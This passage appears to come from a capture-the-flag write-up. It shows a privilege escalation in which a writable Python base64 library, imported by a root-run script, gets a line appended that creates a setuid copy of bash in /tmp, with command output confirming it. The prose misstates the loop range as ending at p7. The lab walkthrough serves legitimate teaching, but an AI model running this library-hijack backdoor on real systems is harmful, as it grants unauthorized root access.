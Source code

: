 ```abap
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
	image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
	with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
	encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
	output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
	with open(output_path, "wb") as output_file:
    	  output_file.write(encoded_image_data)

```

The script import base64 library, goes to /photos and opens every jpg file from p1.jpg to p7.jpg through a loop, encodes every file with base64 and write it to /photos/photoVault.

Nothing we can do to exploit the script but the one thing that’s left is the base64 library, if it’s writable we can exploit it. Running this command we can see that base64 is writable which means we can make a shell and have it execute on the root level 

```abap
find / -type f -name 'base64.py' -ls 2>/dev/null
263097     20 -rwxrwxr-x   1 root     valleyAdmin    20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```

```abap
echo 'import os; os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")' >> /usr/lib/python3.8/base64.py
```

Then after that make sure the script is ran by looking for `bash` under `/tmp`

```abap
valley@valley:~$ ls -la /tmp
total 1220
drwxrwxrwt 16 root root    4096 Sep  9 17:22 .
drwxr-xr-x 21 root root    4096 Mar  6  2023 ..
-rwsr-sr-x  1 root root 1183448 Sep  9 17:23 bash
drwxrwxrwt  2 root root    4096 Sep  9 15:40 .font-unix
drwxrwxrwt  2 root root    4096 Sep  9 15:40 .ICE-unix
drwx------  2 root root    4096 Sep  9 15:40 snap-private-tmp
drwx------  3 root root    4096 Sep  9 15:41 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-apache2.service-J2NlKi
drwx------  3 root root    4096 Sep  9 16:22 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-fwupd.service-cFeaqg
drwx------  3 root root    4096 Sep  9 15:41 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-ModemManager.service-r5KHug
drwx------  3 root root    4096 Sep  9 15:40 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-systemd-logind.service-xVmq3e
drwx------  3 root root    4096 Sep  9 15:40 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-systemd-resolved.service-TgMzOg
drwx------  3 root root    4096 Sep  9 15:40 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-systemd-timesyncd.service-w6Ma5i
drwx------  3 root root    4096 Sep  9 16:22 systemd-private-e4458d8eae1c4013a54c7b9d2a40d1c1-upower.service-ZGb2qf
drwxrwxrwt  2 root root    4096 Sep  9 15:40 .Test-unix
drwxrwxrwt  2 root root    4096 Sep  9 15:40 VMwareDnD
```